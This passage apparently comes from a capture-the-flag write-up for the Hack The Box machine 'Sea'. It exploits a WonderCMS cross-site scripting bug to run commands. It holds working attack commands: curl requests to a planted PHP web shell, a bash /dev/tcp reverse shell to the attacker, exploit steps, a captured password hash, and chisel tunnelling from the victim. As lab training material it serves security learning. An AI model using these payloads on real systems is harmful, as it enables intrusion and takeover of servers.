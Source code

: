 ```bash
# id
CMD="id"
curl --path-as-is "${RHOST}/themes/evil/evil.php?0=$(echo -n "$CMD"| python3 -c "import urllib.parse,sys; print(urllib.parse.quote_plus(sys.stdin.read()))")"
# uid=33(www-data) gid=33(www-data) groups=33(www-data)

# Reverse shell, (don't forget to listen first: nc -nvlp 4444)
CMD="bash -c 'bash -i >& /dev/tcp/${LHOST}/${LPORT} 0>&1'"
curl --path-as-is "${RHOST}/themes/evil/evil.php?0=$(echo -n "$CMD"| python3 -c "import urllib.parse,sys; print(urllib.parse.quote_plus(sys.stdin.read()))")"
```


I used the above as a template to create my own python script >> https://github.com/thefizzyfish/CVE-2023-41425-wonderCMS_RCE

Basic steps to exploit the vulnerability are:
1. Create a php shell file and zip it within a `shell/` directory.
2. Create and host a javascript file to install our zipped shell directory utilizing `installModule`.
3. Host the shell file on a python server
4. If you have admin access to the CMS you can just click the XSS payload, if not you have to get someone who does to click the XSS URL.
6. Hit the URL where our command shell is "installed" for command injection.


![](/Screenshots/Sea_image_14.png)

WonderCMS stores an encrypted password in data/database.js
![](/Screenshots/Sea_image_15.png)

```
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q
```


I attempted to use hashcat to crack the password but wasn't having any luck. Not quite sure why.


There's two other user's on the host:
![](/Screenshots/Sea_image_16.png)

Two user's dirs found in `/home`  `amay` and `geo`
![](/Screenshots/Sea_image_17.png)

User.txt is in /home/amay so we'll likely need to to pivot to `amay`.

Listing connections finds the box is listening on port 8080 locally.

![](/Screenshots/Sea_image_18.png)

We can set up a reverse port forward using chisel to view the web page in our local browser.

```bash
# on attack box
┌──(fish㉿kali)-[~/htb/sea]
└─$ ./chisel_arm server --reverse --port 1080

# On victim
www-data@sea:/tmp$ ./chisel_amd client 10.10.14.7:1080 R:8001:127.0.0.1:8080
2024/08/27 17:55:49 client: Connecting to ws://10.10.14.7:1080
2024/08/27 17:55:49 client: Connected (Latency 24.188706ms)

```
